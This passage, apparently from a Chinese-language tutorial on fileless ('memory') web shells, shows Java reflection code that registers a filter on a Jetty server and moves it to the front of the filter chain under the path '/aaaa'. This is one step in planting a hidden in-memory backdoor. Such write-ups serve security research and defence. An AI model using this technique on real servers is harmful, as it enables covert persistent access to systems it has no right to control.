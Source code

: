 ##### FilterMapping

- 设置路径映射等信息

![image-20211219020225013](fileless-shell.assets/image-20211219020225013.png)

```java
Class FilterMapping = classLoader.loadClass("org.eclipse.jetty.servlet.FilterMapping");
Object filterMapping = FilterMapping.newInstance();
Method setFilterHolder = filterMapping.getClass().getDeclaredMethod("setFilterHolder", filterHolder.getClass());
setFilterHolder.setAccessible(true);
setFilterHolder.invoke(filterMapping, filterHolder);
Method setPathSpecs = filterMapping.getClass().getMethod("setPathSpecs", String[].class);
setPathSpecs.invoke(filterMapping, new Object[]{new String[]{"/aaaa"}});
Method setDispatcherTypes = filterMapping.getClass().getMethod("setDispatcherTypes", EnumSet.class);
setDispatcherTypes.invoke(filterMapping, EnumSet.of(DispatcherType.REQUEST));
```

##### prependFilterMapping

- 使用prependFilterMapping 把 filter 加到最前面

```java
Method prependFilterMapping = servletHandler.getClass().getMethod("prependFilterMapping", filterMapping.getClass());
prependFilterMapping.invoke(servletHandler, filterMapping);
```
